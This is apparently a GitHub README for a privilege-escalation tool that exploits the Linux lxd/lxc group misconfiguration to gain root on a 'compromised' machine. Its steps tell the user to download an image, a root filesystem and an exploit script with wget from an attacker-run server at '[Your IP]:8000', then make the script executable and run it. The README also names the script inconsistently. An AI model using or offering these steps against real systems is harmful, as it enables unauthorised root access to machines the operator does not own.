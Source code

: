 # lxc-Privilage-Escalation

## Description

lxc Privilage Escalation Is An Automation Tool To Exploit The Linux xlc Group Misconfiguration Which Leads To Get High Previlage (root) In The Compromised Server Or Machine

## Requitements

<ul>
<li>python3 |-> To Start The Host Server With It</li>
<li>Linux Debian Based |-> Because It Written With Bash :) & The apt For Debian Based Distros Like:</li>
</ul>
<ol>
<li>Debain</li>
<li>Ubuntu</li>
<li>Kali</li>
<li>Parrot OS</li>
<li>Back Box (Ubuntu Based)</li>
</ol>

## Wiki
- Clone The Repository:

`git clone https://github.com/Cyber-Guy1/lxc-Privilage-Escalation.git`

- Or Download It As A zip File

- Get Into The Cloned Repository:

`cd lxc-Privilage-Escalation`

- Give It The Right Permission:

`chmod +x xlc-exploit.sh`

- Run It:

`./exploit.sh`

- After The Tool Finished It's Tasks Now Go To The Compromised Machine

- Upload The Files Which Will Be The Exploit For Us In The Compromised Machine By Doing:

 `wget http://[Your IP]:8000/lxd.tar.xz` <br><br>[-] For Example: `wget http://192.168.1.5:8000/lxd.tar.xz`<br><br><br>
 `wget http://[Your IP]:8000/rootfs.squashfs` <br><br>[-] For Example: `wget http://192.168.1.5:8000/rootfs.squashfs`<br><br><br>

- Then Upload The Exploitation Script:

`wget http://[Your IP]:8000/exploit.sh` [-] For Example: `wget http://192.168.1.5:8000/exploit.sh`

- Give It The Right Permission:

`chmod +x exploit.sh`

- Finally Run It:

`./exploit.sh`

## Welcome Root ;)

